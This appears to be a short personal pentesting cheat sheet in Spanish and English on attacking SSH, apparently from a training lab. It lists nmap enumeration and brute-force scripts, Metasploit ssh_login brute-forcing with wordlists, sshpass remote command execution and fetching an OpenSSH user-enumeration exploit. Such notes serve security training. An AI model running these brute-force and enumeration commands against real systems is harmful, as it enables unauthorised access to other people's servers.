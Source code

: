 `ssh root@192.168.1.1`        *connection*

### Netcat (nc)

>nc 192.168.1.1 22        //Nos intenamos conectar y nos muestra la versión SSH y el SO

Nmap: >nmap 192.168.1.1 -p 22 --script ssh2-enu-alogs     //enumera algoritmos del SSH

>nmap 192.168.1.1 -p 22 --script ssh-hostkey --script-args ssh_hostkey=full   //hostkey o clave pública del SSH

>nmap 192.168.1.1 -p 22 --script ssh-auth-methods --script-args=”ssh.user=admin” //Busca los metodos de autenticación para el usuario “admin”. Si no tiene método significa que se puede ingresar sin contraseña.

>nmap 192.168.1.1 -p 22 --script=ssh-run --script-args=”ssh-run.cmd=cat /home/student/ARCHIVO.txt, ssh-run.username=student, shh-run.password=’’  //corre comandos desde nmap en la sesión de SSH.

>nmap --script ssh-brute -p22 --script-args userdb=/kali/users  192.168.1.100 //Puede ser IP o dominio, previamente users debe ser creado con la lista de usuarios. Por defecto los password que usa nmap están en "/usr/share/nmap/nselib/data/passwords.lst".

### Metasploit

>msfconsole -q                 //quite mode, sin interfaz

msf6>use auxiliary/scanner/ssh/ssh_login                //usamos el auxiliar ssh_login y sus parámetros: 

set RHOSTS demo.ine.local
set USERPASS_FILE /usr/share/wordlists/metasploit/root_userpass.txt
set STOP_ON_SUCCESS true
set verbose true
msf6>exploit                        //iniciamos el ataque
msf6>sessions                //vemos las sesiones iniciadas en ssh explotado

### OpenSHH

Probamos tener las credenciales con Hydra

Al intentar conectarnos como administrator, tal vez esté bloqueada la conexión a esta cuenta. Usamos el módulo ssh_module

|                                         |                                                                                  |
| --------------------------------------- | -------------------------------------------------------------------------------- |
| Msf>use auxiliary/scanner/ssh/ssh_login | Nos logueamos a SSH por metasploit                                               |
| Msf>sessions -u 1                       | Para upgrate nuestras sesión, puede estar bloqueada por la arquitectura del host |
| SSH>bash                                | Nos muestra el shell de CMD desde SSH                                            |
### Sshpass
`$sshpass -p 'CIA' ssh nicky@172.16.1.129 'ping -c 1 172.16.1.129'` *Run commands y using a SSH session (it's important to get fingerprint before)*

## SSH User enumaration
If OpenSSH is less than 7.7
![[Pasted image 20240321181035.png]]

`$searchsploit -m linux/remote/45939.py` *we can avoid error message with 2>/dev/null*

![[Pasted image 20240321190844.png]]
If it's show that all users are valid, then vulnerability is not present.